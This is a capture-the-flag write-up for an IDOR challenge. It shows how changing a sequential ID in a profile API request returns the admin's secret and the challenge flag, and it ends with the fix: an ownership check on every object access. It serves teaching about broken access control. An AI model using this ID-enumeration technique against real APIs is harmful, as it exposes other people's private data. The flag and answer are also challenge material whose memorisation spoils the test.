


# Object Traversal (IDOR)

**Points:** 50
**Category:** IDOR / Access Control
**Challenge:** *Read the `secret` field from the admin's profile via the unauthenticated object-reference vulnerability in `/ch2/api/profile/<id>`.*

## Recon

The API returns a profile as JSON keyed on the `<id>` in the URL. My own account is user `#5`, and the page lists the known accounts — `admin=1`, `alice=2`, `bob=3`, `charlie=4`. IDs are small sequential integers, so any profile is reachable by changing the number.



The `secret` field is stripped from *my own* response but "not necessarily from others," and nothing ties the requested `<id>` to the logged-in user. Classic **Insecure Direct Object Reference (IDOR)** — broken access control (OWASP A01).

## Exploitation

Request the admin profile directly:

```
GET /ch2/api/profile/1
```

The response includes the `secret` field verbatim — no auth, session, or token required:



```json
{"email":"admin@ctf.local","fullname":"Admin User","id":1,"role":1,"secret":"FLAG{1d0r_pr0f1l3_trav3rs4l_d3b8304e}","username":"admin"}
```

## Flag

```
FLAG{1d0r_pr0f1l3_trav3rs4l_d3b8304e}
```

## Takeaway

The server trusted a client-supplied object reference with no ownership check. The fix is to authorize every object access against the logged-in user (e.g. `WHERE id = :id AND owner = :current_user`); switching to unpredictable IDs like UUIDs only slows enumeration — it doesn't replace the missing check.
